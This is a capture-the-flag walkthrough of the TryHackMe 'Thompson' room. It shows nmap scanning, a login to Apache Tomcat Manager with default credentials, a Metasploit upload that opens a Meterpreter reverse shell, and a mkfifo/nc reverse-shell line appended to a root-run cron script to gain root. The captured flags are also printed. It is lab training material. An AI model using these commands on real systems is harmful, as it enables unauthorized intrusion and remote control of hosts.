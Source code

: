 <code>
   
https://tryhackme.com/room/bsidesgtthompson
cve-2020-1938


## Enumeration

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap   -p- 10.10.29.119       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:43 CEST
Nmap scan report for 10.10.29.119
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8009/tcp open  ajp13
8080/tcp open  http-proxy

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nmap  -sV -A -p 8080 10.10.29.119
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-18 11:45 CEST
Nmap scan report for 10.10.29.119
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5


PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds


**Looks like cve-2020-1938**

## try default passwords on web and Get
401 Unauthorized

You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.

<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>

## Try msfconsole
Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.29.119     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         8080             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /manager         yes       The URI path of the manager app (/html/upload and /undeploy will be used)
   VHOST                          no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.28.108      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.8.28.108:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying c7LfPuhpeMX...
[*] Executing c7LfPuhpeMX...
[*] Undeploying c7LfPuhpeMX ...
[*] Sending stage (57971 bytes) to 10.10.29.119
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.8.28.108:4444 -> 10.10.29.119:47342) at 2025-06-18 13:13:42 +0200

meterpreter > id
[-] Unknown command: id. Run the help command for more details.
meterpreter > ls

## Get inital access as user

tomcat@ubuntu:/home/jack$ cat user.txt  
cat user.txt
39400c90bc683a41a8935e4719f181bf



## Privilage Escalation to root
tomcat@ubuntu:/home/jack$ ls -la
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Jun 18 02:17 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

looks like id.sh is runs every minute with root creads

tomcat@ubuntu:/home/jack$ cat id.sh
cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh
</f;cat /tmp/f|sh -i 2>&1|nc 10.8.28.108 9001 >/tmp/f" >> id.sh              

## Get root shell

┌──(kali㉿kali)-[~/Documents/THM/THM_Thompson]
└─$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [10.8.28.108] from (UNKNOWN) [10.10.29.119] 33486
sh: 0: can't access tty; job control turned off
# # uid=0(root) gid=0(root) groups=0(root)
# ls
id.sh
test.txt
user.txt
#  cd root
# ls
root.txt
# cat root.txt
d89d5391984c0450a95497153ae7ca3a

